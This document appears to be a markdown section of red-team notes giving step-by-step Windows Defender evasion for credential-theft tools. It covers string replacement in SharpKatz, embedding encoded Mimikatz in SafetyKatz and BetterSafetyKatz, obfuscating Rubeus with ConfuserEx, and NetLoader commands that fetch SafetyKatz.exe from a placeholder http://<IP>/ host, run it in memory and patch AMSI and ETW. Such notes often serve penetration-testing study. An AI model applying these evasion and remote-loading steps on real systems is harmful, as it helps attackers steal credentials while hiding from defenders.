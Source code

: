 ### String Manipulation

Tools
- [DefenderCheck](https://github.com/matterpreter/DefenderCheck) to identify code and strings from a binary that Windows Defender may flag
- [ConfuserEx](https://github.com/mkaring/ConfuserEx) to obfuscate a binary
- [Out-CompressedDll.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-CompressedDll.ps1)
- [NetLoader](https://github.com/Flangvik/NetLoader)

For the Sharpkatz binary
1. Run `DefenderCheck.exe <Path to Sharpkatz binary>`
2. Open the project in Visual Studio
3. Press "CTRL + H"
4. Find and replace the string "Credentials" with "Credents" or any other string
5. Scope -> "Entire Solution"
6. Press "Replace All"
7. Build and recheck with DefenderCheck
8. Repeat until there is no detection

For SafetyKatz
1. Run Out-CompressedDll.ps1 on Mimikatz and save the output
   - `Out-CompressedDll <mimikatz.exe> > outputfilename.txt`
2. Retrieve the value of the variable "$EncodedCompressedFile" from the output file, and substitute it for the value of the "compressedMimikatzString" variable in the "Constants.cs" file of SafetyKatz
3. Take the byte size from the output file and replace it into lines 111 and 116 of the "Program.cs" file.

For BetterSafetyKatz
1. Use BetterSafetyKatz to download mimikatz_trunk.zip
2. Convert it in base64
   - `$filename = "D:\file\path\to\mimikatz_trunk.zip"`
   - `[Convert]::ToBase64String([IO.File]::ReadAllBytes($filename)) | clip`
3. Modify the "Program.cs" file
   - Add a new variable holding the base64 value of the "mimikatz_trunk.zip" file.
   - Comment out the sections of code that downloads or accept the mimikatz file as an argument.
   - Convert the base64 string to bytes and assign it to the "zipStream" variable.

For Rubeus.exe
1. Run ConfuserEx
2. In Project tab
   - Select the Base Directory where the binary file is located
   - Choose the Binary File to obfuscate
3. Go to the Settings tab to insert the rules
   - Modify the rule and select the preset as 'Normal'
4. Move to the Protect tab and click on the protect button
5. The newly obfuscated binary will be located in the Confused folder within the specified Base Directory

Payload Delivery
- Use NetLoader to load binaries from either filepath or URL and concurrently patch AMSI and ETW during execution
  - `C:\file\path\to\Loader.exe -path http://<IP>/SafetyKatz.exe`
- Use AssemblyLoad.exe to load the Netloader in-memory from a URL which then loads a binary from a filepath or URL
  - `C:\file\path\to\AssemblyLoad.exe http://<IP>/Loader.exe -path http://<IP>/SafetyKatz.exe`
